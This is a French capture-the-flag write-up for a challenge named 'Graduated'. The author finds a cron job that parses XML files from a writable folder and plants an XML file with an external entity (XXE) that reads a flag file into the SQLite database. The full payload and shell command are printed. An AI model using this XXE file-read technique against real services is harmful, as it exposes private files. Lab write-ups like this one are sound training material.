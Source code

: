 # Graduated - 256 points

Après s'être connecté via ssh on remarque diverses choses:

`graduation.db` constitue une base de données SQLite, dont on pourra éventuellement lire en clair les informations.

`integrator.log` nous informe du fonctionnement du système :

```
-bash-5.1$ head -n 20 integrator.log
02/04/2021 09:33:01 [+] Lancement de l'intégration
02/04/2021 09:33:01 [+] Création de la base de données.
02/04/2021 09:33:01 [+] Analye des fichiers dans "/home/teacher/evaluations/".
02/04/2021 09:33:01 [+] Fichier "eval.xml" en cours d'analyse.
02/04/2021 09:33:01 [+] Nouvelle évaluation ajoutée.
02/04/2021 09:33:01 [+] Fichier "eval.xml" analysé.
02/04/2021 09:33:01 [+] Intégration terminée


02/04/2021 09:34:01 [+] Lancement de l'intégration
02/04/2021 09:34:01 [+] Analye des fichiers dans "/home/teacher/evaluations/".
02/04/2021 09:34:01 [+] Intégration terminée


02/04/2021 09:35:01 [+] Lancement de l'intégration
02/04/2021 09:35:01 [+] Analye des fichiers dans "/home/teacher/evaluations/".
02/04/2021 09:35:01 [+] Intégration terminée


02/04/2021 09:36:01 [+] Lancement de l'intégration
```

On en déduit ainsi que toutes les minutes, un script analyse les nouveaux XML dans `/home/teacher/evaluations/`, où nous avons droit d'écriture étant connecté comme `teacher`, et après les avoir parsé les place très probablement dans la BDD SQLite où on retrouve les informations de `eval.xml`.

Le script réalisant cette intégration est `integrator.py`, lancé périodiquement via une `crontab`. Malheureusement nous n'avons pas les droits de lecture de celui-ci. Sans donc pouvoir en être certains, on peut suspecter une vulnérabilité `XXE` dans le parser XML du script, qu'on pourrait utiliser pour lire des fichiers avec ses privilèges.

On place donc un XML malicieux dans le dossier analysé périodiquement, en se basant sur le template gentiment fourni pour ne pas avoir de problèmes avec la BDD :

```
echo '<?xml version="1.0" encoding="utf-8"?>
> <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/rector/flag.txt"> ]>
> 
> <evaluation>
>   <student>
>     <firstname>Xavier</firstname>
>     <lastname>DUPONT DE L</lastname>
>   </student>
>   <grade>15</grade>
>   <subject>Biologie</subject>
>   <teacher>
>     <firstname>Emile</firstname>
>     <lastname>LOUIS</lastname>
>   </teacher>
>   <comment>&ent;</comment>
> </evaluation>
> ' > evaluations/TEST1.xml
```

Après avoir constaté l'analyse de notre XML dans `integrator.log`, on peut lire le flag dans la BDD avec `cat graduation.db`.